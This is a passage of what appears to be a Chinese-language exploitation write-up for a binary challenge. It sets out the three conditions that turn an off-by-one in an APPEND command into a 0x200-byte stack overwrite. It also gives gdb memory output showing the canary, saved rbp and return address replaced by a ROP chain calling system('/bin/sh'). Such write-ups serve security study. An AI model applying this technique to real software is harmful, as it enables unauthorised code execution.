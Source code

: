 \documentclass[10pt,a4paper]{article}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{quote}
為什麼不是「讀超出 payload」的問題？讀只多讀 1
byte（CRC，仍在映射頁內），\textbf{寫才是問題}。
\end{quote}

\paragraph{5.2
觸發條件（三個必要條件）}\label{ux89f8ux767cux689dux4ef6ux4e09ux500bux5fc5ux8981ux689dux4ef6}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  \textbf{必須先通過 AUTH}（\texttt{capacity\ \allowbreak{}=\ \allowbreak{}0x100} 是 AUTH
  設的，同時解鎖其他 opcode）。
\item
  第一次 \texttt{APPEND} 的 \texttt{L} 必須是
  \texttt{0x101}（\texttt{n\ \allowbreak{}=\ \allowbreak{}0x100\ \allowbreak{}=\ \allowbreak{}capacity} 剛好通過檢查），且
  CRC 必須 \texttt{=\ \allowbreak{}0xff}。
\item
  之後 \texttt{capacity\ \allowbreak{}=\ \allowbreak{}0x1ff}，就能用 \texttt{L\ \allowbreak{}=\ \allowbreak{}0x200} 的
  \texttt{APPEND}（\texttt{n\ \allowbreak{}=\ \allowbreak{}0x1ff}）\textbf{一次寫 0x200 bytes}，
  覆蓋
  \texttt{state{[}0x108{]}}（canary）、\texttt{state{[}0x110{]}}（saved
  rbp）、\texttt{state{[}0x118{]}}（回傳位址）與後面的 ROP 空間。
\end{enumerate}

\paragraph{\texorpdfstring{5.3 gdb
證據（\texttt{./\allowbreak{}gdb\_\allowbreak{}evidence.\allowbreak{}sh}，ASLR
關閉以便重現）}{5.3 gdb 證據（./gdb\_evidence.sh，ASLR 關閉以便重現）}}\label{gdb-ux8b49ux64da.gdb_evidence.shaslr-ux95dcux9589ux4ee5ux4fbfux91cdux73fe}

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
@0x1797 append#1: n=0x100 capacity=0x100  -> n<=cap passes, loop writes n+1 bytes
@0x1810 send_state: state=0x7fffffffdcc0 capacity=0x1ff
@0x1797 append#2: n=0x1ff capacity=0x1ff  -> writes 0x200 bytes over canary/rbp/ret
@0x1a76 loop epilogue (canary check): rbp=0x7fffffffddd0 state=0x7fffffffdcc0 rsp=0x7fffffffdcb0
0x7fffffffddc8: 0xe4fbd8d3ee76a900  0x00007fffffffde60      <- rbp-8: canary, rbp: saved rbp
0x7fffffffddd8: 0x000055555555501a  0x00005555555552aa      <- rbp+8: 回傳位址(蓋成 PIE+0x101a)
0x7fffffffdde8: 0x0000555555558a54  0x00005555555550c0      <- chain: "/bin/sh", system@plt
0x7fffffffddf8: 0x0000000000000000  0x0000000000000000
\end{Verbatim}
\end{document}
